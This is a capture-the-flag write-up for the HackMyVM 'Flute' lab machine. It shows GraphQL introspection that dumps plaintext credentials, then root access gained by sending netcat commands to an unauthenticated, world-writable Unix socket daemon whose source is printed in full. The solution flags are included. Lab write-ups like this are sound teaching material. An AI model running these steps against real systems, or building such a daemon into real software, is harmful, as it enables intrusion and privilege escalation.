



# HackMyVM — Flute

**Difficulty:** Easy  
**OS:** Linux (Alpine)  
**Date:** 16.11.2026

---

## Reconnaissance

### Network Discovery

```bash
sudo netdiscover -r 172.20.10.0/24
```

Target identified: `172.20.10.5`

### Nmap

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.5
```

```
PORT     STATE SERVICE
22/tcp   open  ssh      OpenSSH 10.0
8888/tcp open  http     Node.js (Apollo GraphQL)
```

Port 8888 responds with CORS headers, Express-style ETags, and a `query missing` error on a plain GET — classic Apollo Server behaviour.

---

## Initial Access

### GraphQL Introspection

Navigating to `http://172.20.10.5:8888/` in the browser confirms **Apollo Server** with the GraphQL Playground enabled.

Dump the full schema via introspection:

```json
{"query":"{ __schema { types { name fields { name } } } }"}
```

Response reveals:
- A `User` type with fields: `username`, `password`
- Root `Query` type exposing: `users` (list), `user` (single)

### Dumping All Users

```json
{"query":"{ users { username password } }"}
```

Response:

```json
{
  "data": {
    "users": [
      { "username": "admin",   "password": "imtherealadmin" },
      { "username": "hamelin", "password": "comewithmerats" }
    ]
  }
}
```

Credentials stored in **plaintext** directly in the Apollo resolver — no database, no hashing.

### SSH Login

```bash
ssh hamelin@172.20.10.5
# password: comewithmerats
```

```
HackMyVM Flute.
flute:~$
```

```bash
cat ~/user.txt
# HMVuser9f4ndbaz4chc6j04b3va
```

---

## Privilege Escalation

### Process Enumeration

```bash
ps aux
```

Among the running processes:

```
2205 root  0:00 /usr/bin/python3 /opt/ratd/ratd.py
```

A Python daemon running as root. Reading the source:

```bash
cat /opt/ratd/ratd.py
```

```python
import socket
import os

sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
socket_path = "/tmp/ratd.sock"

if os.path.exists(socket_path):
    os.remove(socket_path)

sock.bind(socket_path)
os.chmod(socket_path, 0o777)   # world-accessible
sock.listen(1)

print("Rat daemon running...")

while True:
    conn, _ = sock.accept()
    data = conn.recv(1024).decode()

    if data.startswith("RUN "):
        cmd = data[4:]
        os.system(cmd)           # executed as root, no auth
        conn.send(b"OK\n")
    else:
        conn.send(b"Unknown command\n")

    conn.close()
```

### Vulnerability Analysis

`ratd.py` is a **Unix domain socket daemon** running as root. It:

1. Creates a socket at `/tmp/ratd.sock`
2. Sets its permissions to `0o777` — readable and writable by **any user**
3. Accepts connections and executes any `RUN <cmd>` string via `os.system()` as root
4. Has **zero authentication**

This is an unauthenticated privileged command execution via a root-owned socket.

### Exploitation

Copy the root flag to a readable location:

```bash
echo "RUN cp /root/root.txt /tmp" | nc -U /tmp/ratd.sock
# OK

echo "RUN chmod 777 /tmp/root.txt" | nc -U /tmp/ratd.sock
# OK

cat /tmp/root.txt
# HMVrootoepsamqu0liphzzsc7x9
```

---

## Summary

| Stage | Technique |
|-------|-----------|
| Reconnaissance | Nmap → Apollo GraphQL identified on port 8888 |
| Initial Access | GraphQL introspection → plaintext credential dump → SSH |
| Privilege Escalation | Unauthenticated root command execution via Unix socket (`ratd.py`) |

## Flags

| Flag | Value |
|------|-------|
| user.txt | `HMVuser9f4ndbaz4chc6j04b3va` |
| root.txt | `HMVrootoepsamqu0liphzzsc7x9` |

## Key Takeaways

- **GraphQL introspection** must be disabled in production. Here it exposed the entire schema and plaintext credentials stored directly in the resolver.
- **`ps aux`** is essential during enumeration — a running root process is often a faster privesc path than SUID binaries.
- **Unix domain sockets** are as dangerous as TCP services when world-accessible (`0o777`) and unauthenticated. `os.system()` from a root process with no input validation is an instant RCE.
- Always check `/tmp` and similar directories for sockets (`.sock` files) during enumeration:
  ```bash
  find /tmp /var/run /run -name "*.sock" 2>/dev/null
  ```
